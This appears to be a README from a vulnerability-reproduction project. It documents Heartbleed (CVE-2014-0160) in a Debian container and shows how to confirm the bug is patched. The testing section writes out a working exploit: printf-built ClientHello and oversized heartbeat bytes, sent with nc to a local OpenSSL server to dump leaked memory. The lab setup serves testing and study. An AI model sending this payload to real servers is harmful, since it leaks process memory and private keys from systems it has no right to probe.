 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python cve_debian.py --number 2014-0160 --release bullseye --directory heartbleed --selenium
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc CONTAINER_IP_ADDRESS 4433 | hexdump -C
```
The default IP address should be 172.17.0.2 .  
We observe that a lot of data thus it is vulnerable. 

If openssl is then updated in the container : 
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.